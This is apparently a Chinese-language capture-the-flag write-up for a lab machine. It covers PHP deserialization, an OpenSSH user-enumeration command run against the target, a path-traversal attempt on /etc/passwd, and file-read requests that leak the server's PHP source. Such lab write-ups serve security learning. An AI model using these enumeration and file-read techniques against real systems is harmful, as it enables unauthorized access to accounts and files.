 发现，主目录下成功生成一个新文件。
![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-21/5.PNG)

>PHP中会调用一个函数serialize()，它**接收一个给定的数组作为输入参数**，并能够将数组的内容转换成正常的字符串，然后你就可以将字符串内容保存在一个文件中，也可以作为URL的一个输入值，等等。

确认反序列化漏洞。

#### try2: openssh用户枚举
`python ssh.py --port 22 --outputFile 87.txt --userList /usr/share/wordlists/linux-user.txt 10.10.10.87`

#### try3: 通过反序列化漏洞进行命令执行
我知道是用户输入未验证导致的问题，但不知道如何利用。还是经验不够。

---

writeup:

![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-21/6.PNG)
/dirRead.php当时发现了如图所示的“列目录”，也尝试了“../../../../etc/passwd”，但网页提示false，于是就不知道怎么办了。

想过是否泄露源代码，通过`http://ip/dirRead.php`去访问，当然不行，网页是空白的。

---
```
dirRead.php
path=./.

response网页的响应:
[".","..",".list","background.jpg","cursor.png","dirRead.php","face.png","fileDelete.php","fileRead.php","fileWrite.php","index.php","list.html","list.js"]
```
---

```
/fileRead.php
path=./.list/list1

response网页的响应:
{"file":"{\"1\":\"Enumerate\",\"2\":\"Enumerate\",\"3\":\"Enumerate\",\"4\":\"Enumerate\"}\n"}
```
---

```
/fileRead.php
file=./fileRead.php

response网页的响应:

{"file":"<?php\n\n\nif($_SERVER['REQUEST_METHOD'] === \"POST\"){\n\t$fileContent['file'] = false;\n\theader('Content-Type: application\/json');\n\tif(isset($_POST['file'])){\n\t\theader('Content-Type: application\/json');\n\t\t$_POST['file'] = str_replace( array(\"..\/\", \"..\\\"\"), \"\", $_POST['file']);\n\t\tif(strpos($_POST['file'], \"user.txt\") === false){\n\t\t\t$file = fopen(\"\/var\/www\/html\/\" . $_POST['file'], \"r\");\n\t\t\t$fileContent['file'] = fread($file,filesize($_POST['file']));  \n\t\t\tfclose();\n\t\t}\n\t}\n\techo json_encode($fileContent);\n}\n"}
```
## 如何解析json格式数据？
`sed 's/\\n/\n/g' < fileRead.php | sed 's/\\t/\t/g' | sed 's/\\//g'`
将“\n”替换为换行符，“\t”替换为制表符，斜杠替换为空。
